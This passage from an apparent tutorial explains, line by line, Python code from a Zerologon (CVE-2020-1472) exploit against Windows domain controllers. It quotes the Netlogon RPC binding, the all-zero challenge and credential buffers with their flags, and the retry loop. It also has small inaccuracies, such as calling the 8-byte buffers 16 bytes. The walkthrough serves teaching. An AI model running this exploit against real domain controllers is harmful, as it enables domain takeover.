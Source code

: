 Line 1 is defining where the variables are being passed into for the local function, \\DCNAME is being passed into the dc_handle variable, dc_ip is being passed into dc_ip variable, and dc_name is being passed into the target_computer variable. All of which will be used later, or passed into different modules.

Line 4 sets the variable rpc_con equal to none, this will be kept track of consistently to check and see if authentication is successful, if it's not, the script will continue until 2000 retries is hit. Line 5 is where the actual retries for Zero Logon occurs in the form of a for loop. Line 6 sets the rpc_con variable to the output of a different function called "try_zero_authenticate" with a couple of variables being passed to it, specifically dc_handle, dc_ip, and target_computer. All of which we addressed earlier. The next lines are simply checking if rpc_con is equal to a invalid login attempt, if it is, print =, if not, print success, if 2000 retries is hit: print attack failed.

**Lines 20-25**

```py
def try_zero_authenticate(dc_handle, dc_ip, target_computer):

    binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
    rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
    rpc_con.connect()
    rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
```

Line 1 is defining the try_zero_authenticate function and is taking the previously mentioned 3 variables as input, and is passing them into the function. Lines 3-6 are establishing a bind and a session with NRPC over TCP/IP so that we can communicate with the domain controller.

**Lines 27-40**

```py
plaintext = b'\x00' * 8
ciphertext = b'\x00' * 8

flags = 0x212fffff

nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
try:
server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)
```

Line 1 and 2 are establishing two new variables, plaintext and ciphertext containing 16 Bytes of "\x00" which will be used to exploit the Zero Logon vulnerability. Line 4 contains a variable called Flags. These are the default flags observed from a Windows 10 Client (using AES-CFB8) with the Sign and Seal bit disabled (Source/Credit: Secura).

Line 6 is where the fun beings -- This is where Step 1 beings in Figure 1, the client creates a NetrServerReqChallenge containing the following information required by the [Microsoft Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/5ad9db9f-7441-4ce5-8c7b-7b771e243d32):

```py
NTSTATUS NetrServerReqChallenge(
    [in, unique, string] LOGONSRV_HANDLE PrimaryName,
    [in, string] wchar_t* ComputerName,
    [in] PNETLOGON_CREDENTIAL ClientChallenge,
);
```
